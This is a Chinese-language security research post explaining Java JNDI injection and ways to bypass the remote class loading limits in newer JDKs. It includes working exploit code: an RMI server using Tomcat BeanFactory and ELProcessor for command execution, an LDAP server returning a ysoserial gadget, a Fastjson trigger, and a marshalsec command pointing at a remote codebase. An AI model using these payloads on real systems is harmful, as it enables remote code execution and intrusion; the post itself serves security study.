


## 写在前面

Java JNDI注入有很多种不同的利用方式，而这些利用方式的Payload分别有一些限制。在之前《深入理解JNDI注入与Java反序列化漏洞利用》中，我们主要讨论的是通过RMI服务返回 JNDI Naming Reference Payload 的攻击手法，除此之外还有 RMI Remote Object Payload、LDAP Naming Reference Payload 等等攻击手法，而所有这些利用方式分别都有一些限制。笔者在实际环境中也遇到过很多有限制的情况，这里做个梳理并讨论下绕过这些限制的方法，对上一篇做个补充和备忘。关于JNDI注入和RMI的基础知识，可以在我前面一篇JNDI的文章中获取。我们先看看JDK对这些利用有什么限制：


### 1. RMI Remote Object Payload（限制较多，不常使用）

攻击者实现一个RMI恶意远程对象并绑定到RMI Registry上，编译后的RMI远程对象类可以放在HTTP/FTP/SMB等服务器上，这个Codebase地址由远程服务器的 java.rmi.server.codebase 属性设置，供受害者的RMI客户端远程加载，RMI客户端在 lookup() 的过程中，会先尝试在本地CLASSPATH中去获取对应的Stub类的定义，并从本地加载，然而如果在本地无法找到，RMI客户端则会向远程Codebase去获取攻击者指定的恶意对象，这种方式将会受到 useCodebaseOnly 的限制。利用条件如下：

1. RMI客户端的上下文环境允许访问远程Codebase。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。

然而从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

Changelog:

- JDK 6u45 <https://docs.oracle.com/javase/7/docs/technotes/guides/rmi/relnotes.html>
- JDK 7u21 <http://www.oracle.com/technetwork/java/javase/7u21-relnotes-1932873.html>

### 2. RMI JNDI Reference Payload

这也是我们在《深入理解JNDI注入与Java反序列化漏洞利用》中主要讨论的利用方式。攻击者通过RMI服务返回一个JNDI Naming Reference，受害者解码Reference时会去我们指定的Codebase远程地址加载Factory类，但是原理上并非使用RMI Class Loading机制的，因此不受 java.rmi.server.useCodebaseOnly 系统属性的限制，相对来说更加通用。

但是在JDK 6u132, JDK 7u122, JDK 8u113 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。如果需要开启 RMI Registry 或者 COS Naming Service Provider的远程类加载功能，需要将前面说的两个属性值设置为true。

Changelog:

- JDK 6u141 <http://www.oracle.com/technetwork/java/javase/overview-156328.html#R160_141>
- JDK 7u131 <http://www.oracle.com/technetwork/java/javase/7u131-relnotes-3338543.html>
- JDK 8u121 <http://www.oracle.com/technetwork/java/javase/8u121-relnotes-3315208.html>

### 3. LDAP JNDI Reference Payload

除了RMI服务之外，JNDI还可以对接LDAP服务，LDAP也能返回JNDI Reference对象，利用过程与上面RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址：ldap://xxx/xxx，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象。并且LDAP服务的Reference远程加载Factory类不受上一点中 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。

不过在2018年10月，Java最终也修复了这个利用点，对LDAP Reference远程工厂类的加载增加了限制，在Oracle JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被调整为false，还对应的分配了一个漏洞编号CVE-2018-3149。

### 4. 绕过JDK 8u191+等高版本限制

所以对于Oracle JDK 11.0.1、8u191、7u201、6u211或者更高版本的JDK来说，默认环境下之前这些利用方式都已经失效。然而，我们依然可以进行绕过并完成利用。两种绕过方法如下：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。

这两种方式都非常依赖受害者本地CLASSPATH中环境，需要利用受害者本地的Gadget进行攻击。我们先来看一些基本概念，然后再分析这两种绕过方法。


## 关于Codebase

Oracle官方关于Codebase的说明：<https://docs.oracle.com/javase/1.5.0/docs/guide/rmi/codebase.html>

Codebase指定了Java程序在网络上远程加载类的路径。RMI机制中交互的数据是序列化形式传输的，但是传输的只是对象的数据内容，RMI本身并不会传递类的代码。当本地没有该对象的类定义时，RMI提供了一些方法可以远程加载类，也就是RMI动态加载类的特性。

当对象发送序列化数据时，会在序列化流中附加上Codebase的信息，这个信息告诉接收方到什么地方寻找该对象的执行代码。Codebase实际上是一个URL表，该URL上存放了接收方需要的类文件。在大多数情况下，你可以在命令行上通过属性 java.rmi.server.codebase 来设置Codebase。

例如，如果所需的类文件在Webserver的根目录下，那么设置Codebase的命令行参数如下（如果你把类文件打包成了jar，那么设置Codebase时需要指定这个jar文件）： 

```
-Djava.rmi.server.codebase=http://url:8080/
```

当接收程序试图从该URL的Webserver上下载类文件时，它会把类的包名转化成目录，在Codebase 的对应目录下查询类文件，如果你传递的是类文件 com.project.test ，那么接受方就会到下面的URL去下载类文件： 


    http://url:8080/com/project/test.class


## 关于JNDI Naming Reference的限制

如前文所述，JDK 7u21开始，java.rmi.server.useCodebaseOnly 默认值就为true，防止RMI客户端VM从其他Codebase地址上动态加载类。然而JNDI注入中的Reference Payload并不受useCodebaseOnly影响，因为它没有用到 RMI Class loading，它最终是通过URLClassLoader加载的远程类。

NamingManager.java
```java
static ObjectFactory getObjectFactoryFromReference(Reference ref, String factoryName)
    throws IllegalAccessException,
    InstantiationException,
    MalformedURLException {
    Class<?> clas = null;

    // Try to use current class loader
    try {
         clas = helper.loadClass(factoryName);
    } catch (ClassNotFoundException e) {
        // ignore and continue
        // e.printStackTrace();
    }
    // All other exceptions are passed up.

    // Not in class path; try to use codebase
    String codebase;
    if (clas == null &&
            (codebase = ref.getFactoryClassLocation()) != null) {
        try {
            clas = helper.loadClass(factoryName, codebase);
        } catch (ClassNotFoundException e) {
        }
    }

    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
}
```

代码中会先尝试在本地CLASSPATH中加载类，不行再从Codebase中加载，Codebase的值是通过ref.getFactoryClassLocation()获得。

```java
public Class<?> loadClass(String className, String codebase)
        throws ClassNotFoundException, MalformedURLException {

    ClassLoader parent = getContextClassLoader();
    ClassLoader cl =
             URLClassLoader.newInstance(getUrlArray(codebase), parent);

    return loadClass(className, cl);
}
```
最后通过 VersionHelper12.loadClass() 中 URLClassLoader 加载了远程class。所以java.rmi.server.useCodebaseOnly不会限制JNDI Reference的利用，有影响的是高版本JDK中的这几个系统属性：

- com.sun.jndi.rmi.object.trustURLCodebase
- com.sun.jndi.cosnaming.object.trustURLCodebase
- com.sun.jndi.ldap.object.trustURLCodebase

做个实验，我们在JDK1.8.0_181下使用 RMI Server 构造恶意的JNDI Reference进行JNDI注入，报错如下：

```
Exception in thread "main" javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
    at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:495)
    at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
    at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
    at javax.naming.InitialContext.lookup(InitialContext.java:417)
```

而此时使用LDAP Server返回恶意Reference是可以成功利用的，因为JDK 8u191以后才对LDAP JNDI Reference进行了限制。

> Tips: 测试过程中有个细节，我们在JDK 8u102中使用RMI Server + JNDI Reference可以成功利用，而此时我们手工将 com.sun.jndi.rmi.object.trustURLCodebase 等属性设置为false，并不会如预期一样有高版本JDK的限制效果出现，Payload依然可以利用。

## 绕过高版本JDK限制：利用本地Class作为Reference Factory

在高版本中（如：JDK8u191以上版本）虽然不能从远程加载恶意的Factory，但是我们依然可以在返回的Reference中指定Factory Class，这个工厂类必须在受害目标本地的CLASSPATH中。工厂类必须实现 javax.naming.spi.ObjectFactory 接口，并且至少存在一个 getObjectInstance() 方法。org.apache.naming.factory.BeanFactory 刚好满足条件并且存在被利用的可能。org.apache.naming.factory.BeanFactory 存在于Tomcat依赖包中，所以使用也是非常广泛。

org.apache.naming.factory.BeanFactory 在 getObjectInstance() 中会通过反射的方式实例化Reference所指向的任意Bean Class，并且会调用setter方法为所有的属性赋值。而该Bean Class的类名、属性、属性值，全都来自于Reference对象，均是攻击者可控的。

> Tips: 根据beanFactory的代码逻辑，要求传入的Reference为ResourceRef类



这个情况下，目标Bean Class必须有一个无参构造方法，有public的setter方法且参数为一个String类型。事实上，这些setter不一定需要是set..开头的方法，根据org.apache.naming.factory.BeanFactory中的逻辑，我们可以把某个方法强制指定为setter。

这里，我们找到了`javax.el.ELProcessor`可以作为目标Class。启动RMI Server的利用代码如下：

```java
Registry registry = LocateRegistry.createRegistry(rmi_port);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
// 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
ref.add(new StringRefAddr("forceString", "KINGX=eval"));
// 利用表达式执行命令
ref.add(new StringRefAddr("KINGX", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));

ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("Exploit", referenceWrapper);
```

"forceString"可以给属性强制指定一个setter方法，这里我们将属性"KINGX"的setter方法设置为 ELProcessor.eval() 方法。



于是我们 ResourceRef 中加上元素"KINGX"，赋值为需要执行的恶意代码。最后调用setter就变成了执行如下代码：

```
ELProcessor.eval(\"\".getClass().forName("javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\"))
```

ELProcessor.eval()会对EL表达式进行求值，最终达到命令执行的效果。

这种绕过方式需要目标环境中存在Tomcat相关依赖，当然其他Java Server可能也存在可被利用的Factory类，可以进一步研究。

## 绕过高版本JDK限制：利用LDAP返回序列化数据，触发本地Gadget

目录是一种分布式数据库，目录服务是由目录数据库和一套访问协议组成的系统。LDAP全称是轻量级目录访问协议（The Lightweight Directory Access Protocol），它提供了一种查询、浏览、搜索和修改互联网目录数据的机制，运行在TCP/IP协议栈之上，基于C/S架构。除了RMI服务之外，JNDI也可以与LDAP目录服务进行交互，Java对象在LDAP目录中也有多种存储形式：

- Java序列化
- JNDI Reference
- Marshalled对象
- Remote Location (已弃用)

LDAP可以为存储的Java对象指定多种属性：

- javaCodeBase
- objectClass
- javaFactory
- javaSerializedData
- ...

这里 javaCodebase 属性可以指定远程的URL，这样黑客可以控制反序列化中的class，通过JNDI Reference的方式进行利用（这里不再赘述，示例代码可以参考文末的Demo链接）。不过像前文所说的，高版本JVM对Reference Factory远程加载类进行了安全限制，JVM不会信任LDAP对象反序列化过程中加载的远程类。此时，攻击者仍然可以利用受害者本地CLASSPATH中存在漏洞的反序列化Gadget达到绕过限制执行命令的目的。

简而言之，LDAP Server除了使用JNDI Reference进行利用之外，还支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。其中具体的处理代码如下：

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) { 
    ClassLoader cl = helper.getURLClassLoader(codebases);
    return deserializeObject((byte[])attr.get(), cl);
}
```

我们假设目标系统中存在着有漏洞的CommonsCollections库，使用ysoserial生成一个CommonsCollections的利用Payload：
```java
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
```

LDAP Server关键代码如下，我们在javaSerializedData字段内填入刚刚生成的反序列化payload数据：
```java
...
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
    URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
    System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
    e.addAttribute("javaClassName", "foo");
    String cbstring = this.codebase.toString();
    int refPos = cbstring.indexOf('#');
    if ( refPos > 0 ) {
        cbstring = cbstring.substring(0, refPos);
    }
    /** Payload1: Return Evil Reference Factory **/
    // e.addAttribute("javaCodeBase", cbstring);
    // e.addAttribute("objectClass", "javaNamingReference");
    // e.addAttribute("javaFactory", this.codebase.getRef());

    /** Payload2: Return Evil Serialized Gadget **/
    try {
        // java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
        e.addAttribute("javaSerializedData",Base64.decode("rO0ABXNyABFqYXZhLn....."));
    } catch (ParseException e1) {
        e1.printStackTrace();
    }

    result.sendSearchEntry(e);
    result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
...
```

模拟受害者进行JNDI lookup操作，或者使用Fastjson等漏洞模拟触发，即可看到弹计算器的命令被执行。
```java
Hashtable env = new Hashtable();
Context ctx = new InitialContext(env);
Object local_obj = ctx.lookup("ldap://127.0.0.1:1389/Exploit");

String payload ="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":\"true\" }";
JSON.parse(payload);
```

这种绕过方式需要利用一个本地的反序列化利用链（如CommonsCollections），然后可以结合Fastjson等漏洞入口点和JdbcRowSetImpl进行组合利用。

## End

实战中可以使用marshalsec方便的启动一个LDAP/RMI Ref Server：

```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]

Example:

java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://8.8.8.8:8090/#Exploit 8088
```

本文内的相关测试代码见Github <https://github.com/kxcode/JNDI-Exploit-Bypass-Demo>


## Reference

- <https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf>
- <https://www.veracode.com/blog/research/exploiting-jndi-injections-java>
